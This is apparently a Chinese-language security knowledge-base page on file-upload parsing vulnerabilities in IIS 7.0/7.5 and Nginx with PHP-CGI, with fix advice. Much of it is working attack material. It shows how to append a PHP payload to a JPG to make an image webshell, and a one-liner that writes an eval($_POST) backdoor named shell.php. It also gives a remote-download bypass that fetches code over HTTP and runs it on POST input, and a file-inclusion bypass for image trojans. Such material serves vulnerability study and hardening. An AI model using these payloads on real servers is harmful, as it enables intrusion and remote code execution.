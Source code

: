 利用方法如下：将一张图和一个写入后门代码的文本文件合并，将恶意文本写入图片的二进制代码之后，避免破坏图片文件头和尾。Windows下可利用CMD命令实现文件拼接：

`copy xx.jpg /b + yy.txt /a xy.jpg`

其中，参数的意义为：
● /b二进制（binary）模式。
● /a ASCII模式xx.jpg正常图片文件。
● yy.txt的内容如下：

`<? PHP fputs(fopen('shell.php','w'),'<? PHP eval($_POST[cmd]?>');>`

执行成功后的效果就是在上传文件的真实目录下生成一句话木马文件shell.php，再利用各类连接工具连接即可完成整体漏洞利用。需要注意的是，IIS 7.0/7.5下的解析漏洞是由于[PHP CGI 解析漏洞](PHP%20CGI%20解析漏洞.md)PHP-CGI本身的问题导致，与IIS自身并没有直接关系。

修复建议：
1. 在“处理程序映射”界面的列表中双击FastCGI行，在弹出的“编辑模块映射”对话框中单击“请求限制”按钮，在弹出的“请求限制”对话框的“映射”选项卡中选择“文件货文件夹”单选按钮即可。
2. 修改 PHP 配置文件，设置 cgi.fix_pathinfo=0 。修改完后保存配置文件，然后重启IIS服务器。
### Nginx解析漏洞

目前Nginx的解析漏洞利用方式与IIS基本一致。一个是对于任意文件名，在后面添加/任意文件名．php的解析漏洞，比如原本文件名是test.jpg，可以添加为test.jpg/x.php进行解析攻击。还有一种是针对低版本的Nginx，可以在任意文件名后面添加%00.php进行解析攻击。

下面几个版本都存在此问题：

● Nginx 0.5.*
● Nginx 0.6.*
● Nginx 0.7 <= 0.7.65
● Nginx 0.8 <= 0.8.37

任意文件名/任意文件名．php这个漏洞其实是出现自[PHP CGI 解析漏洞](PHP%20CGI%20解析漏洞.md)php-cgi的漏洞，与Nginx自身无关，这点与IIS 7.0/7.5与PHP配合使用时解析漏洞产生原理一样。

修复方式：
1. 修改 PHP 配置文件，设置 cgi.fix_pathinfo=0 。修改完后保存配置文件，然后重启PHP-FPM（FastCGI进程管理器）
2. 在Nginx配置文件中添加以下配置。当匹配到类似 `test.jpg/x.php` 的 URL时会返回403错误代码。修改完成，重启Nginx。
```
if ($fastcgi_script_name ~\..*\/.*php) {
	return 403;
}
```

### 下载绕过
远程下载文件绕过

```
<?php$str = file_get_contents('http://127.0.0.1/ian.txt');
$str($_post['ian']);?>
```

### 文件包含绕过

```
上传图片木马
$x=$_GET['x'];
include($x);访问:http://www.xxxx.com/news.php?x=xxxxxx.jpg
```
